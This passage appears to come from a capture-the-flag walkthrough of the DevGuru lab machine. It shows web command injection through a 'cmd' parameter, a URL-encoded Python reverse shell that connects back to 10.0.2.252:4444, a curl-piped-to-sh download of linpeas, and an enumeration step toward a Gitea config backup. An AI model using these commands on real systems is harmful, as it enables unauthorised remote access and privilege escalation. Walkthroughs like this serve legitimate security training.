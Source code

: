 ```bash
┌──(kali㉿Zeus)-[~/Desktop]
└─$ curl http://devguru.local/?cmd=id  2>&1 | grep uid 

uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

###### Reverse Shell

Resource : https://www.revshells.com/

- Browser

```bash
http://devguru.local/?cmd=python3%20-c%20%27import%20os,pty,socket;s=socket.socket();s.connect((%2210.0.2.252%22,4444));[os.dup2(s.fileno(),f)for%20f%20in(0,1,2)];pty.spawn(%22sh%22)%27
```

![image]( /assets/img/devguru/7.PNG)


#### Privileges Escalation - Frank

```bash
www-data@devguru:/$ ps aux | grep frank

<snip> /usr/local/bin/gitea web --config /etc/gitea/app.ini
```

###### linpeas

```bash
curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh
```

Found the backup of the app.ini here : /var/backups/app.ini.bak

![image]( /assets/img/devguru/8.PNG)
